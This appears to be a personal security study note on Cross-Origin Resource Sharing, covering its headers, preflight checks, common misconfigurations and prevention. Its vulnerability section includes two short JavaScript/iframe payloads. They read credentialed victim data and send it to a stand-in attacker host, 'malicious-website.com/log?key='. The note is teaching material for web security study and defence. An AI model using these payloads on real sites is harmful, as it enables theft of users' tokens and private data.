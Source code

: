 
### General Notes

Browser mechanism that enables controlled access to resources located outside of a domain, and adds flexibility to [[Same Origin Policy (SOP)]].
- The CORS [[Protocol]] uses [[HTTP#Header]]s that define trusted origins, and properties for each with given [[Authentication]] and [[Access Control]] permissions.
- These headers are used between the browser and the web site located in a different origin. (cross-origin).

CORS relaxes the [[Same Origin Policy (SOP)]] for [[HTTP]] requests between websites with different domains through the use of HTTP headers.

> CORS doesn't protect against [[Cross Site Request Forgery (CSRF)]].

---

### `Access-Control-Allow-Origin` (ACAO) response header

This header is returned by a server when a website requests resources across domains with the `Origin` header.
- The browser compares values in this header with the requesting web `Origin` header and gives permissions.

The `Access-Control-Allow-Origin` header can have values of:
* Multiple origins. (No browser supports this).
* `null`
* `*`

###### Transferring Cookies, Certificates, and Credentials

CORS allows for sharing credentials or authorization [[Cookies]] through the response header `Access-Control-Allow-Credentials` (ACAC).
- If it is set to true in the response, then the cookies being sent in the request will be allowed to be read.

 >Using the header `Access-Control-Allow-Origin` set to the value `*` cannot be combined with `Access-Control-Allow-Credentials` set to `true`.

###### Pre-Flight Checks


When a cross-domain request uses a non standard [[HTTP]] method or headers, this request is preceded by one with the `OPTIONS` method, and an initial check is made regarding the permitted methods and headers.
- The server returns allowed methods and the trusted origin.
- A cross-domain request will be first preceded by `OPTIONS` request with the method and headers used of this request.
- The server responds with the allowed origin, the allowed methods, the allowed verbs, and the caching time of the preflight response.

> Used to protect legacy resources.

---

### CORS Vulnerabilities

Some applications simply read the `origin` header from the incoming request, and then respond with the ACAO header set to the value in that `origin` header.
- They can also respond with the ACAC header to allow including [[Cookies]].

- If a [[Cross Site Request Forgery (CSRF)]] token or [[Application Programming Interface (API)]] key is included in the response, use this payload.
```JavaScript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true;
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```

###### Error parsing Origin headers

Supporting multiple origins usually works by having a whitelist.
- A request with the origin header has its value compared against whitelist, if it is found, then the ACAO header is added to the response.

This matching with the whitelist can be played around by appending to the end or the beginning, or by using [[Regular Expressions]].
* The beginning by testing if it allows all subdomains.
* To the end if it simply checks the required origin is present.

> Sometimes the value `null` is whitelisted.

Browsers can send `null` in the origin header in:
* Cross-origin redirects.
* Requests from serialized data.
* Requests using `file:` [[Protocol]].
* Sandboxed cross-origin requests.

If the server responds with ACAO with value `null`, then we can bypass it by generating a cross-origin request containing `null` in the origin header satisfying the whitelist.

- Adding the payload we have in an `iframe` sandbox will appear as if it is coming from the null origin.
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); 
req.withCredentials = true; 
req.send(); 
	   
function reqListener() { 
	location='malicious-website.com/log?key='+this.responseText; 
}; </script>">
</iframe>
```

###### Exploiting [[Cross Site Scripting (XSS)]] via CORS

If a website trusts an origin that is vulnerable to [[Cross Site Scripting (XSS)]], attacker can inject JavaScript that uses CORS.

- Given the following request:
```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

- If the server responds with:
```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```

- Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
> `cors-stuff` is the CORS payload that issues a request above. [[Cross-Origin Resource Sharing (CORS)#CORS Vulnerabilities]].

###### Breaking [[Transport Layer Security (TLS)]]

Application that has [[HTTPS]] whitelists a subdomain using [[HTTP]].
- Attackers that can intercept traffic between these two locations can compromise the victims interaction with the application.

> Methodology: [(TLS)](https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors).

---
### Preventing CORS

* Proper configuration of cross-originr requests with the properly specified ACAO headers.
* Only allow truster websites with the hedaers.
* Avoid whitelisting the `null` value in the ACAO header.
* Avoid wildcards in internal networks. (`*`).
* Not a replacement for server-side protection.

---
